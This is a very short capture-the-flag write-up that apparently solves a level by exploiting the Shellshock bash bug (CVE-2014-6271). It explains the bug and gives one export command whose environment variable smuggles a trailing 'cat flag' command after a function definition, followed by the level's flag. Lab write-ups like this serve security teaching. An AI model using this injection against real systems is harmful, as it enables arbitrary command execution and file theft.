

in this level we exploit the bug of shellshock, which runs unintentionally code that is found after func declaration inside env variables.

```
export env_var='() { echo "regular stuff"; }; cat flag'
```



**Flag:** ***`only if I knew CVE-2014-6271 ten years ago..!!`***
